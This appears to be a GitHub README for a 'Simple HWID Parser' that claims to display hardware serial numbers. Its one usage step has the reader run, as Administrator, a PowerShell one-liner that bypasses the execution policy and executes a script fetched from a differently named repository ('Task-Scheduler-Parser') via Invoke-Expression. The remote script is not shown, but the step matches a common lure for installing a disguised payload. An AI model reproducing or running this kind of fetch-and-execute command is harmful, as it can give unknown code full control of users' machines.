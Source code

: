 <p align="center">
  <a href="https://www.webopedia.com/definitions/hwid/">
    <img src="kita-ikuyo-rap.webp" alt="Banner">
  </a>
</p>

<h1 align="center">Simple <a href="https://www.webopedia.com/definitions/hwid/">HWID Parser</a>!</h1>
<p align="center">
  <a href="https://www.webopedia.com/definitions/hwid/">
  </a>
</p>
<h3 align="center">Simple HWID Parser</h3>

<p align="center">This tool collects and displays key hardware information about the system, such as the processor ID, physical memory serial numbers, and disk drive serial numbers. It runs a series of commands using Windows Management Instrumentation (WMI) and parses their results to display them directly in the Command Prompt for easy access and analysis.</p>

---

### Steps to use
1. Launch Command Prompt as Administrator
2. Use the script below and wait a few seconds till it publishs the results.

```powershell
powershell -Command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Invoke-Expression (Invoke-RestMethod 'https://raw.githubusercontent.com/ObsessiveBf/Task-Scheduler-Parser/main/script.ps1')"
